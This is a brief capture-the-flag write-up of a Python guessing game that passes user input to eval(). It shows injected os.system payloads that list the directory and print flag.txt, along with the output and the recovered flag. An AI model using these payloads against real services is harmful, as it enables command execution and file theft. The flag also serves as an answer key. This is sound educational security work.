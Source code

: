 The primary vulnerability in this challenge is the use of eval(). This function allows arbitrary code execution, which can be exploited to bypass the need to guess the number. 

Since eval() executes the input as code, we can input python code that reads and prints the
flag directly, bypassing the number guessing logic

First we can input ```__import__('os').system('ls')```
We get:
```What is the number?: __import__('os').system('ls')                    
chall.py
flag.txt

You lost lol
```
Then we input ```__import__('os').system('cat flag.txt')```
We get:
```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}

    You lost lol```

Flag is: ```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}```
